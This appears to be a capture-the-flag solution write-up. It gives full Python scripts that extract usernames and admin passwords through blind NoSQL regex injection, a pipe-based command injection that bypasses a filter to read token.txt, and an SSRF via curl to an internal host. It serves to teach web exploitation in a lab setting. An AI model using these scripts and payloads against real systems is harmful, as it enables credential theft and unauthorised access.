 # Sharpest Tool in the Shed Solution

### Log in as an Admin

- This is a blind NoSQL injection

- The endpoint is admin-tools.us/users
- The main goal here is to create a script to find out what you need in order to get the credentials to login as an admin
  - You need the user, password, and you must find the group
  - You could try to populate all of the users and passwords and try each one
- The schema of a user is:

  - ```JSON
    user: {
      username: username,
      group: user or admin,
      password: password
    }
    ```

- You can do a regex search in the field of the object like so:

  - ```JSON
      user: {
        username: {$regex: "^"}
      }
    ```

- You would do this for each field in order to get the correct combination of user, group and password
- To complete the attack, you would loop through a list of acceptable strings in order to find the correct information in the database
- Below are the attacks in order: username, password
- Group would be found by using the password script but removing the password section and replacing "group": "admin" to "group": {"$regex": "^%s"}
  - Also note you would also have to replace password with group in all fields and change (username, password + c) to (username, group + c)
- Scripts and more information on the attack are found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#blind-nosql)

  - ```Python
    import requests
    import urllib3
    import string
    import urllib
    import time
    urllib3.disable_warnings()
    
    u="http://admin-tools.us/users"
    headers={'content-type': 'application/json'}
    
    first_letters = []
    username = ""
    usernames = []
    
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$regex": "^%s"}}' % (c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'taken' in r.text:
                print("Found first letter : %s" % (c))
                first_letters.append(c)
    
    for letter in first_letters:
        username = letter
        print(username)
        while (username.find("$") == -1):
            for c in string.printable:
                if c not in ['*','+','.','?','|','^']:
                    payload='{"username": {"$regex": "^%s"}}' % (username + c)
                    r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
                    if 'taken' in r.text:
                        print("Letter found in username : %s" % (username + c))
                        username += c
        usernames.append(username)
    
    print("NOTE: $ are not in the username!")
    print("Also, ^admin is not being used!")
    print(usernames)
    ```

  - ```Python
    import requests
    import urllib3
    import string
    import urllib
    urllib3.disable_warnings()
    
    list_username=["Dart", "Haschel", "Kongol", "Lavitz", "Meru", "Rose"]
    password=""
    group=""
    u="http://admin-tools.us/users"
    headers={'content-type': 'application/json'}
    
    while True:
        for username in list_username:
            found = False
            for c in string.printable:
                if c not in ['*','+','.','?','|']:
                    payload='{"username": {"$eq": "%s"}, "group": "admin", "password": {"$regex": "^%s"}}' % (username, password + c)
                    r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
                    if c == "~":
                        if found == False:
                            list_username.remove(username)
                            break
                    if 'taken' in r.text:
                        if c == "$":
                            print("%s:%s" % (username, password))
                            quit()
                        print("Found one more char : %s" % (password+c))
                        password += c
                        found = True
    ```

### Contents of "token.txt"

- Once you log into the admin account, you have a token checker tool
- You have to avoid the hard-coded filter
  - It's filtering "$(" and "&"
  - But it's not filtering |
  - It's also making sure you're using ls in the command
- So the correct command should be "ls | cat token.txt"

### POST the secret server

- This is an SSRF
- You have to query secret-server.us from admin-tools.us
- You have the new filtered command in order to do this
- To find the endpoint, you notice there's a status of the server at the bottom of admin-tools.us
- If you inspect the page, and look at networking, you can see it's contacting secret-server.us/ping.php
- If you try to visit the site, it will give you an error that only admin-tools can use the endpoint
- The correct command is "ls | curl secret-server.us" in the token checker tool